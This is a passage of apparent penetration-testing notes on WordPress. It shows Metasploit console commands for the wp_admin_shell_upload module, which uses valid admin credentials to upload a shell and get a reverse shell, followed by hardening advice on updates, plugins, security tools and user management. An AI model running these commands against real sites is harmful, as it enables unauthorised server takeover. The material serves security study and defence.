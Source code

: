 ## Attacking WordPress with Metasploit 

### Automating WordPress Exploitation 

We can use the **Metasploit Framework** (**MSF**) to obtain a reverse shell on the target automatically. This requires valid credentials for an account that has sufficient rights to create files on the webserver:
```console
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set rhosts <TARGET>
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set username <USER> 
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set password <PASSWORD>
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set lhost <IP>
msf5 exploit(unix/webapp/wp_admin_shell_upload) > run
```

---

# WordPress Hardening 

## Perform Regular Updates 

We can even modify the `wp-config.php`{: .filepath} file to enable automatic updates by inserting the following lines:
```php
define( 'WP_AUTO_UPDATE_CORE', true );
add_filter( 'auto_update_plugin', '__return_true' );
add_filter( 'auto_update_theme', '__return_true' );
```

## Plugin and Theme Management 

Only install trusted themes and plugins from the WordPress.org website. Before installing a plugin or theme, check its reviews, popularity, number of installs, and last update date.

## Enhance WordPress Security 

Several WordPress security plugins can be used to enhance the website's security.
- **Sucuri Security**
- **iThemes Security**
- **Wordfence Security**

## User Management 

The following user-related best practices will help improve the overall security of a WordPress site:
- Disable the standard admin user and create accounts with difficult to guess usernames
- Enforce strong passwords
- Enable and enforce two-factor authentication (2FA) for all users
- Restrict users' access based on the concept of least privilege
- Periodically audit user rights and access. Remove any unused accounts or revoke access that is no longer needed
